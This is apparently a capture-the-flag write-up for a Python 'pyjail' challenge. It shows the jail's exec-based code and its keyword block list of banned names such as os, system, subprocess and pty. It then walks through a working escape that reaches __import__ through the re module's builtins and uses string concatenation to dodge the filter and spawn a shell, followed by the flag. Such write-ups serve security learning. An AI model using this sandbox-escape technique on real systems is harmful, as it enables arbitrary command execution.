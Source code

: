 ### pyjail

Escape me plz

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024

jail.py

```py
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()

```

since `__builtins__` has been overwritten, so I used `globals` to get at the builtins of `re`
```py
print(globals['re'].__builtins__)
```

from here we can access `__import__` and import os to get a shell

```py
print(globals['re'].__builtins__['__import__']('os').__dict__['system']('sh'))
```

```sh
Nope, we ain't letting you use import!
```

ahh, need to get around the filter, using some string concatenation this isn't a problem

```py
print(globals['re'].__builtins__['__impo'+'rt__']('o'+'s').__dict__['sy'+'stem']('sh'))
```

```sh
What would you like to say?
>>> print(globals['re'].__builtins__['__impo'+'rt__']('o'+'s').__dict__['sy'+'stem']('sh'))
ls
flag.txt
jailbreak.py
run.sh
ynetd
cat flag.txt
flag{l3t's_try_sc0p1ng_th1s_0ne_2390098}
exit
0
>>> 

```






